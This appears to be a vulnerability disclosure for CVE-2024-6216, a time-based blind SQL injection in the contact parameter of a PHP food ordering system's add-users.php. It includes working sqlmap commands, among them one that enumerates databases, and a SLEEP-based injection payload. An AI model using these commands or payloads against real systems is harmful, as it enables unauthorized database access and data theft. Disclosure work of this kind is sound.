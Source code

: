 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-users.php)
## CVE-2024-6216
Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: add-users.php

Injection parameter: contact


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The contact parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on **Add** on the right bottom side, we can access add-user.php.

`http://172.16.76.1/foms/user.php`

![image](https://github.com/jadu101/CVE/assets/76433661/d0dfe8ac-c4a7-4659-8820-6badeaaf77e6)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/d0fb3ab7-30d9-4bf8-898e-96e8b2383110)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter contact is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-users-php.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/f3eeb76f-0be4-4d69-a3f2-b528be8ee3a3)

```
---
Parameter: contact (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=sdf&password=sdf&name=sdf&email=tese@sdf.cd&contact=123 AND (SELECT 5585 FROM (SELECT(SLEEP(5)))zByJ)&address=123&role=Customer&verified=0&deleted=0&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p contact --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/10add061-736f-40eb-a74d-9732f4ef6716)

